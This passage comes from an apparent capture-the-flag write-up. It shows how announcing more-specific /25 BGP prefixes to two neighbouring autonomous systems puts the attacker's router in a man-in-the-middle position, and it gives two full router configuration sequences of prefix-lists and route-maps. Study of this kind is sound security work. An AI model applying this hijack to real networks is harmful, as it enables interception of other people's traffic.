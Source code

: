 From this data, we can see that AS60002 routes for the 172.16.2.0/24 network, and AS60003 routes for the 172.16.3.0/24.

Therefore, in order to man in the middle the connection we want to broadcast that we have a route to 172.16.2.0/25 to AS60003, and a route to 172.16.3.0/25 to AS60002. As these are more specific than what they are broadcasting (a /25 opposed to a /24),  both routers will use these paths.

>
{% highlight text %}
router1.ctx.ctf# conf t
router1.ctx.ctf(config)# ip prefix-list 2noex permit 172.16.2.0/25
router1.ctx.ctf(config)# !
router1.ctx.ctf(config)# route-map to-as60003 permit 10
router1.ctx.ctf(config-route-map)# match ip address prefix-list 2noex
router1.ctx.ctf(config-route-map)# set community no-export
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config-route-map)# route-map to-as60003 permit 20
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config-route-map)# route-map to-as60002 deny 10
router1.ctx.ctf(config-route-map)# match ip address prefix-list 2noex
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config-route-map)# route-map to-as60002 permit 20
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config)# router bgp 60001
router1.ctx.ctf(config-router)# network 172.16.2.0 mask 255.255.255.128
router1.ctx.ctf(config-router)# end
{% endhighlight  %}


The "conf t" allows us to modify the configuration file, and "router bgp 60001" allows us to alter the routes we are broadcasting.

These commands closely match those mentioned in the carrier write up. Essentially this is creating a rule set to prevent the route we are sending to AS60003 being forwarded to AS60002. If this was not defined, AS60003 would incorrectly route traffic to the /25 subnet, breaking any network connections to that subnet (and preventing our attack).



We then do the same for AS60002 to AS60003 to complete our man in the middle position.

{% highlight text %}
router1.ctx.ctf# conf t
router1.ctx.ctf(config)# ip prefix-list 3noex permit 172.16.3.0/25
router1.ctx.ctf(config)# !
router1.ctx.ctf(config)# route-map to-as60002 permit 10
router1.ctx.ctf(config-route-map)# match ip address prefix-list 3noex
router1.ctx.ctf(config-route-map)# set community no-export
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config-route-map)# route-map to-as60002 permit 20
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config-route-map)# route-map to-as60003 deny 10
router1.ctx.ctf(config-route-map)# match ip address prefix-list 3noex
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config-route-map)# route-map to-as60003 permit 20
router1.ctx.ctf(config-route-map)# !
router1.ctx.ctf(config)# router bgp 60001
router1.ctx.ctf(config-router)# network 172.16.3.0 mask 255.255.255.128
router1.ctx.ctf(config-router)# end
{% endhighlight  %}
